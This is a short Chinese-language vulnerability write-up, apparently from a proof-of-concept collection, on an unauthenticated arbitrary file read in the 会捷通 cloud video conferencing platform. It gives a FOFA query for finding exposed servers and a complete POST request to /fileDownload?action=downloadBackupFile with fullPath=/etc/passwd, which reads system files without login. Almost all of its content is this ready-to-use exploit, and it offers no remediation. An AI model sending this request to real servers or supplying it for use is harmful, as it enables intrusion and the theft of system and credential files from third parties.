

## 会捷通云视讯平台存在未授权任意文件读取漏洞

## 漏洞描述

**会捷通云视讯平台存在未授权任意文件读取漏洞，可通过POST函数进行任意文件读取**

## 漏洞影响

> 会捷通云视讯平台

## FOFA

> body="/him/api/rest/v1.0/node/role

## 漏洞复现

**无需登录、可未授权读取服务器所有文件**

通过访问漏洞url：

```
/fileDownload?action=downloadBackupFile
```

再通过载体“fullPath=”即可进行任意文件读取

```

POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: x.x.x.x
Content-Length: 20
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://x.x.x.x
Referer: http://x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
 
fullPath=/etc/passwd
```

